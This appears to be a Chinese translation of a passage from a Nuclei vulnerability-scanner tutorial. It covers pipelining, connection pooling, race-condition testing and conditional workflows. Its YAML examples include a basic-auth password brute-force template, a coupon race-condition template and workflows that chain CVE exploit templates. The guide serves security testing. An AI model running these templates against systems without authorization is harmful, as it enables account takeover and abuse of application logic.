

Nuclei在模板中提供了HTTP流水线功能，但前提是目标主机必须支持流水线。如果主机不支持流水线，引擎会回退到标准的HTTP请求。为了确认目标是否支持HTTP流水线，你可以使用`httpx`工具，并加上`-pipline`标志进行测试。

模板中需要包含以下选项：

```yaml
    unsafe: true
    pipeline: true
    pipeline-concurrent-connections: 40
    pipeline-requests-per-connection: 25000
```

一个使用流水线的模板示例如下：

```yaml
id: pipeline-testing
info:
  name: pipeline testing
  author: pdteam
  severity: info
 
requests:
  - raw:
      - |+
        GET /{{path}} HTTP/1.1
        Host: {{Hostname}}
        Referer: {{BaseURL}}
 
    attack: batteringram
    payloads:
      path: path_wordlist.txt
 
    unsafe: true
    pipeline: true
    pipeline-concurrent-connections: 40
    pipeline-requests-per-connection: 25000
 
    matchers:
      - type: status
        part: header
        status:
          - 200

```

### 连接池

Nuclei支持等多个线程复用同一个TCP连接，从而加速扫描或模糊测试。请注意，不要再任何请求的头中使用"Connection:close"，否则Nuclei将回退标准的HTTP请求。要使用连接池，在HTTP模式模板中设置"threads:<int>" 选项，其中<int>是所需要的线程数。下面的HTTP基本认证暴力破解模板示例演示了如何使用40个线程的连接池：
```yaml
id: fuzzing-example
info:
  name: Connection pooling example
  author: pdteam
  severity: info
 
requests:
  - raw:
      - |
        GET /protected HTTP/1.1
        Host: {{Hostname}}
        Authorization: Basic {{base64('admin:§password§')}}
 
    attack: batteringram
    payloads:
      password: password.txt
    threads: 40
 
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200
      - type: word
        words:
          - "Unique string"
        part: body
```

### 竞争条件

竞争条件是一种漏洞类型，它关注于应用程序在处理多个几乎同时访问共享资源的请求时产生的异常行为。对于大多数流行的扫描工具来说，测试竞争条件可能相当困难。

能够测试竞争条件的工具通常使用一种称为”gating“的技术。这种技术一次发送多个请求的字节，但最后一个字节除外，最后一个字节会同时发送给所有请求。这样可以同步多个请求，使它们尽可能同时到达。Nuclei的竞争条件模式就是使用这种技术。

要在模板中启用竞争条件检查，请设置选项”race:true“并将`race_count`值设置为要同时发送的请求数量。

以下是一个发送10个相同请求到目标的竞争条件模板示例。

```yaml
id: race-condition-testing
 
info:
  name: Race condition testing
  author: pdteam
  severity: info
 
requests:
  - raw:
      - |
        POST /coupons HTTP/1.1
        Host: {{Hostname}}
 
        promo_code=20OFF        
 
    race: true
    race_count: 10
 
    matchers:
      - type: status
        part: header
        status:
          - 200

```

例如：如果折扣优惠券限制使用5此，你可以对目标运行这个模板，并统计返回状态码为200的响应数量。如果数量超过5，则表明应用程序中可能存在竞争条件漏洞。下面的截图显示了所有10个请求都得到了200 OK的状态码。



### 工作流

之前，我们讨论了如何利用模板过滤选项，使我们的扫描更加智能和有针对性，而不是盲目地对目标应用几乎所有的模板。Nuclei的工作流功能在此基础上，通过使用YAML文件定义自动化、有序的扫描流程，提供了一种一致且可重复的方法。工作流通常使用条件逻辑对目标进行指纹识别，并根据结果决定是否运行模板。

例如，可以使用一个检测所用Web框架的模板对目标的技术栈进行指纹识别。如果检测到WordPress，则会运行针对WordPress的模板。否则，就不会运行。这样可以减少流量，加快结果输出。

工作流可以是通用的（简单的）或条件的。通用工作流只是定义了一系列要运行的模板。例如：
```yaml
# mandatory template info goes up here (id, name etc)
# workflow definition:
workflows:
  - template: files/git-config.yaml
  - template: files/svn-config.yaml
  - template: files/env-file.yaml
  - template: cves/2022/
  - tags: xss,ssrf,cve,lfi
```

注意，这种方式并不会对目标进行枚举或指纹识别，二十盲目地运行选定的脚本。如果我们已经掌握了目标技术栈的先验信息，可以通过跳过指纹识别来节省时间。

条件工作流的本质是：

- 运行一个模板对目标进行指纹识别。
- 根据第一个模板的结果，可能运行其他模板。

条件工作流定义的基本组件包括：

- 模板
- 匹配器（可选）：定义比前一个模板发现结果更详细的条件。
- 子模板：用于定义有条件运行的模板

```yaml
workflows:
  - template: technologies/jira-detect.yaml
    subtemplates:
      - tags: jira
      - template: exploits/jira/
```

以下工作流使用了一个匹配器，他会在运行各种WrodPress模板之前，检查Tech-detect模板的输出中是否包含字符串”wordpress“：

```yaml
workflows:
  - template: technologies/tech-detect.yaml
    matchers:
      - name: wordpress
        subtemplates:
          - template: cves/CVE-2019-6715.yaml
          - template: cves/CVE-2019-9978.yaml
          - template: files/wordpress-db-backup.yaml
          - template: files/wordpress-debug-log.yaml
```

条件工作流可以将多个条件链接起来，形成要给复杂的模板执行序列。以下是一个条件工作流模板的示例：

```yaml
workflows:
  - template: technologies/tech-detect.yaml
    matchers:
      - name: foo-xyz
        subtemplates:
          - template: technologies/foo-xyz-version-3.yaml
            subtemplates:
              - template: cves/2022/CVE-2022-123456.yaml
                subtemplates:
                  - template: cves/CVE-2022-123457.yaml
```

这个假设的示例只有在满足以下所有条件时，才会运行CVE-2022-123457模板：

- tech-detect模板检测到foo-xyz
- foo-xyz的版本是3.x
- 检测到CVE-2022-123456

总结来说，工作流可以定义更高效、更有针对性的扫描步骤，从而节省时间并方便共享。

## 结论

Nuclei是一款高效、可扩展的开源漏洞扫描器，仅需几个命令行选项即可产生有用的效果。它拥有大量出色的功能，当与自定义模板和工作流结合使用时，可以充分发挥该工具的强大功能。

这份指南希望能让你对Nuclei的众多功能有一个初步的了解，这些功能可以用于枚举信息和查找实时目标中的漏洞。如果你想称为一名真正的Nuclei专家，我们建议你阅读官网文档，分析一些社区开发的模板，最重要的是，尝试编写自己的模板和工作流。

## 更新

自从这篇博客最初发布以来，Nuclei已经经历了多次版本更新。Nuclei v3版本引入了对Code Protocol和JavaScript的支持。查看[Nuclei v3](https://blog.projectdiscovery.io/nuclei-v3-featurefusion/)博客可以详细了解所有新增的功能。

## ProjectDiscovery 云平台

除了Nuclei和数十个开源工具之外，ProjectDiscovery还积极致力于推出他们的企业级工具-ProjectDiscovery云平台。

[ProjectDiscovery云平台（PDCP）](https://docs.projectdiscovery.io/cloud/introduction?ref=blog.projectdiscovery.io)是一款托管的企业级产品，旨在通过检测可利用的漏洞和错误配置，为您的外部攻击面提供持续的可见性。它专为企业构建，可以扩展并支持应用程序安全团队保护其基础设施所需的关键工作流程。

有兴趣使用PDCP测试你的现有Nuclei扫描吗？我们有一份初学者指南可以指导你完成这个过程，或者你可以直接跳到将你Nuclei扫描连接到PDCP。

## 附加资源

- [Nuclei 主文档](https://docs.projectdiscovery.io/tools/nuclei/overview?ref=blog.projectdiscovery.io)
- [Nuclei 模板指南](https://docs.projectdiscovery.io/templates/introduction?ref=blog.projectdiscovery.io)
- [Nuclei 模板语法参考](https://github.com/projectdiscovery/nuclei/blob/master/SYNTAX-REFERENCE.md?ref=blog.projectdiscovery.io)
- [模板编辑器（Nuclei和 ProjectDiscovery 云平台）](https://docs.projectdiscovery.io/cloud/editor/overview?ref=blog.projectdiscovery.io)
